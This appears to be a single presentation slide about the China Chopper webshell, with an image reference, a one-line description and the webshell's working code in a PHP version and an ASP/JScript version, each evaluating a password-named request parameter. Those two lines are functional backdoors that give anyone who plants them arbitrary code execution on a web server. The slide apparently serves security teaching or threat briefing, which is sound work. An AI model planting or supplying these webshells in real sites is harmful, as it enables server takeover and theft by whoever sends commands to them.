

# China Chopper
China Chopper – super tiny webshell, heavy lifting done on the client/attacker side

PHP:  <?php @eval($_POST['password']);?>

ASP: <%@ Page Language="Jscript"%><%eval(Request.Item["password"],"unsafe");%>